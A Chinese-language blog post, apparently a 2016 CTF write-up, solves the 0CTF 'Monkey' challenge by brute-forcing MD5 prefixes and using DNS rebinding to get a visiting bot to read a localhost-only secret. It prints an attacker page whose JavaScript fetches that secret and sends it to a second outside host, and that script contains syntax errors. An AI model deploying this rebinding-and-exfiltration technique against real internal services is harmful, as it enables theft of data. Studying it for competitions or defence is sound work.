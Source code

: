 ```yaml
---
id: 685
layout: post
title: '0ctf部分write up'
date: 2016-03-14 03:03:00
author: virusdefender
tags: 安全 CTF
---
```


首先不得不说这场比赛题目水平还是相当相当高的，毕竟是0ops团队。

Monkey
------
> What is Same Origin Policy?

> The flag is at http://127.0.0.1:8080/secret After you submitted a url, a monkey will browse the url. The monkey will stay 2 minutes on your page. 
> Try to find a string \$str so that (substr(md5(\$str), 0, 6) === '54d7ed').

首先这个题要计算md5，每次刷新页面都会变的，其实6位的md5组合并不多，理论上是$16^6$个，所以先计算出一些，保存起来，每次到文件中查找就好了。

```python
import hashlib
for i in xrange(1000000000):
    print i, hashlib.md5(str(i)).hexdigest()
```

算了一会，觉得差不多了，就停了下来，生成了大约2G的文件。查询md5的时候，就使用`cat md5.txt|grep xxxx`。

然后下面域名随便写了自己的一个域名，查看log确实会有一个访问，UA是`Mozilla/5.0 0ctf by md5_salt`，但是题目上是要访问127.0.0.1才行。

如果将自己的页面上加入js ajax访问127.0.0.1，会因为同源策略被拦截，访问失败。如果想跨域发送请求，需要对方网站设置`Access-Control-Allow-Origin`，但是没办法收到响应。

现在唯一能控制的就是自己的域名，能不能让自己的域名在爬虫访问的时候是正常的ip，然后js执行的时候变成127.0.0.1呢，这样域名仍然是不变的既可以跨域了。

后来在提示下找到了[DNS Rebinding][1]这个方法，页面加载后使用`setTimeout`增加js执行时间，然后在这个过程中修改域名解析到127.0.0.1，这个就要求DNS的TTL要尽可能的小，才能尽快的生效，一直在用的CloudXNS可以设置60s的TTL，已经足够了。





服务器上的页面是这样的

```php
/* 这个http头是为了接收js跨域报告访问结果设置的，和题目没太大关系。js如果不是使用ajax报告结果，而是`new Image().src`的形式也可以，就可以无视跨域问题了。*/

<?php
header("Access-Control-Allow-Origin: *");
?>
<html>
<head></head>
<body>
<script src="//cdn.bootcss.com/jquery/1.12.1/jquery.js"></script>
<script>
setTimeout(function(){
    $.ajax({
        url: "http://ctf.qduoj.com:8080/secret",
        method: "get",
        success: function(data) {
            $.get("http://ctf1.qduoj.com:8080/123?" + JSON.stringfy(data);
        } 
}, 100000);
 
</script>
</body>
</html>
```


  [1]: https://crypto.stanford.edu/dns/
  [2]: https://dn-virusdefender-blog.qbox.me/2016/2448463110.zip
  [3]: http://storage.virusdefender.net/blog/images/685/3.png
  [4]: http://storage.virusdefender.net/blog/images/685/4.png
  [5]: http://storage.virusdefender.net/blog/images/685/5.png